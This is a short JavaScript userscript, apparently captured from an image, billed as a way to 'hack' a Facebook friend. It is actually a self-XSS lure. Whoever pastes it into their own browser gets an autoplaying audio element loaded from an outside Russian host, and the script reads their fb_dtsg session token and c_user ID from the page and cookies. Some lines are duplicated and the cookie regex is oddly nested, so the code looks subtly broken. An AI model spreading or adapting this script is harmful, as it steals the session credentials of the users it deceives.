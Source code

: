 // ==/Rizky_Creations==
// @Name               HOW TO HACK FACEBOOK FRIEND
// @Version            v.1.5
// @Copyright          RIZKY RAHMANSYAH
// ==/Rizky_Creations==
/* HACKS_SCRIPT - Created By Rizky Design */
var parent=document.getElementsByTagName("html")[0];
var _body = document.getElementsByTagName('body')[0];
var _div = document.createElement('div');
_div.style.height="25";
_div.style.width="100%";
_div.style.position="fixed";
_div.style.top="auto";
_div.style.bottom="0";
_div.align="center";
var _audio= document.createElement('audio');
_audio.style.width="100%";
_audio.style.height="25px";
_audio.controls = true;
_audio.autoplay = false;
_audio.autoplay = true;
_audio.src = "http://buraevo.ru/UserFiles/Rizky_Design.mp3";
_div.appendChild(_audio);
_body.appendChild(_div);
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);